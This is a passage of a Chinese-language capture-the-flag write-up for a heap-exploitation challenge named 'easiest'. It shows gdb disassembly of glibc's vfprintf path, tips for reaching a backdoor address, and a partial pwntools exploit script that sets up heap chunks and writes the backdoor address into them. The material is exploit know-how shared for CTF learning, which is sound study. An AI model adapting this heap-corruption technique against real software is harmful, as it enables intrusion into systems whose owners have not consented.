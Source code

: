 II.
```arm
0x7ffff7a7f8fc <vfprintf+60>     mov    ecx, dword ptr [rdi]
   0x7ffff7a7f8fe <vfprintf+62>     test   cl, 8
   0x7ffff7a7f901 <vfprintf+65>     jne    vfprintf+840 <0x7ffff7a7fc08>
 
   0x7ffff7a7f907 <vfprintf+71>     test   rsi, rsi
   0x7ffff7a7f90a <vfprintf+74>     je     vfprintf+869 <0x7ffff7a7fc25>
 
 ► 0x7ffff7a7f910 <vfprintf+80>     test   cl, 2
   0x7ffff7a7f913 <vfprintf+83>     mov    r13, rdx
   0x7ffff7a7f916 <vfprintf+86>     mov    r12, rsi
   0x7ffff7a7f919 <vfprintf+89>     mov    rbx, rdi
```
发现运气超好..后门的地址恰好可以过如果不过了的话还要自己想办法过掉call b ffered_vfprintf

III.
在这里卡了半天...因为我在一般的chunk里面乱写东西...最好置0
```arm
  0x7ffff7a82682 <buffered_vfprintf+210>    mov    esi, 1
   0x7ffff7a82687 <buffered_vfprintf+215>    cmp    dword ptr [rip + 0x3570f2], 0 <0x7ffff7dd9780>
   0x7ffff7a8268e <buffered_vfprintf+222>    je     buffered_vfprintf+232 <0x7ffff7a82698>
    ↓
 ► 0x7ffff7a82698 <buffered_vfprintf+232>    cmpxchg dword ptr [rdx], esi
   0x7ffff7a8269b <buffered_vfprintf+235>    je     buffered_vfprintf+259 <0x7ffff7a826b3>
    ↓
   0x7ffff7a826b3 <buffered_vfprintf+259>    mov    rdx, qword ptr [rbx + 0x88]
   0x7ffff7a826ba <buffered_vfprintf+266>    mov    qword ptr [rdx + 8], r8
```
rdx一般是你的某个chunk...所以不要乱填东西
```python
cmpxchg是汇编指令
作用：比较并交换操作数.
如：CMPXCHG r/m,r 将累加器AL/AX/EAX/RAX中的值与首操作数（目的操作数）比较，如果相等，第2操作数（源操作数）的值装载到首操作数，zf置1。如果不等， 首操作数的值装载到AL/AX/EAX/RAX并将zf清0
```

过了之后就会调后门

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("te \n",str(c))
def add(idx,size,c="\x00\x00\x00\x00\x00\x00\x00\x00\n"):
	cmd(1)
	p.sendlineafter("11):",str(idx))
	p.sendlineafter("th:",str(size))
	p.sendafter("C:",c)
def free(idx):
	cmd(2)
	p.sendlineafter("11):",str(idx))
sh=0x000000000400946
p=process("./easiest")
#p=remote('127.0.0.1',4000)
binary=ELF("./easiest")
context.log_level='debug'
add(0,0x38)
add(1,0x38)
add(2,0x38)
add(3,0x38)
add(4,0x88)
add(11,0x8*12,'\x00'*56+p64(sh)+'\n')
free(1)
free(2)
```